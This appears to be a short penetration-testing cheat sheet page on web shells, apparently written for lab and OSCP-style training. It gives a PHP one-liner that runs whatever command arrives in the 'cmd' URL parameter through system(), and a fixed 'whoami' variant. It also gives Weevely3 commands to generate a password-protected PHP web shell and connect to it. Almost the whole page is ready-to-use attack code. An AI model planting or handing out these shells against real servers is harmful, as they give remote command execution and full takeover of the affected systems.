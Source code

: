 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Webshells

## PHP

{% tabs %}
{% tab title="PreDefined" %}
```php
<?php system("whoami"); ?>
```
{% endtab %}

{% tab title="Dynamic" %}
```php
<?php system($_GET['cmd']); ?>
```
{% endtab %}
{% endtabs %}

More [here](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html).

## Weevely3

{% code overflow="wrap" %}
```bash
# generate webshell
./weevely.py generate test123 ~/dvwa/weevely.php
# call webshell
sudo weevely.py <URL>/weevely.php test123
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="weevely3" %}
{% embed url="https://github.com/epinna/weevely3" %}
{% endtab %}
{% endtabs %}
